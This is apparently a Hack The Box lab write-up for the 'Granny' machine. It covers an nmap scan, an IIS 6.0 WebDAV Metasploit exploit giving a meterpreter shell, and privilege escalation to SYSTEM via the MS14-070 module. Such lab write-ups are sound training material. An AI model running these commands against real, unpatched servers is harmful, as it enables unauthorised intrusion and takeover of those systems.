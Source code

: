 # Granny

IP: `10.10.10.15`

## Nmap scan

```sh
nmap -A -T5 -p- 10.10.10.15
```

results

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-12 09:38 EDT
Nmap scan report for 10.10.10.15
Host is up (0.22s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|   Server Type: Microsoft-IIS/6.0
|   WebDAV type: Unknown
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_  Server Date: Sun, 12 Apr 2020 13:42:05 GMT
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.69 seconds
```

## Port analysis

Going to port 80, we see the same error message that was seen for grandpa. So let's also try the same method as we did for the Grandpa box.


## Metasploit WebDAV scan

```sh
msfconsole
use exploit/windows/iis/iis_webdav_scstoragepathfromurl
set RHOSTS 10.10.10.15
run
```

meterpreter shell spawned here. Now to escelate privelage just like grandpa

Getting system info:

```
Host Name:                 GRANNY
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
Registered Owner:          HTB
Registered Organization:   HTB
Product ID:                69712-296-0024942-44782
Original Install Date:     4/12/2017, 5:07:40 PM
System Up Time:            0 Days, 1 Hours, 6 Minutes, 58 Seconds
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x86 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              INTEL  - 6040000
Windows Directory:         C:\WINDOWS
System Directory:          C:\WINDOWS\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (GMT+02:00) Athens, Beirut, Istanbul, Minsk
Total Physical Memory:     1,023 MB
Available Physical Memory: 756 MB
Page File: Max Size:       2,470 MB 
Page File: Available:      2,291 MB
Page File: In Use:         179 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
                           [01]: Q147222
Network Card(s):           N/A
```

copying the info to `systeminfo.txt` and running

```sh
windows-exploit-suggester.py -d 2020-04-10-mssb.xls -i systeminfo.txt
```

Next, migrating to this process for a more stable meterpreter session:

```sh
2428  592   davcdata.exe
```

Now running the same exploit as grandpa MS-14-070

```sh
background # background the meterpreter session
# Using the rapid7 doc for MS14-070 exploit
use exploit/windows/local/ms14_070_tcpip_ioctl
set SESSION <meterpreter session id>
exploit
```

and we have our root shell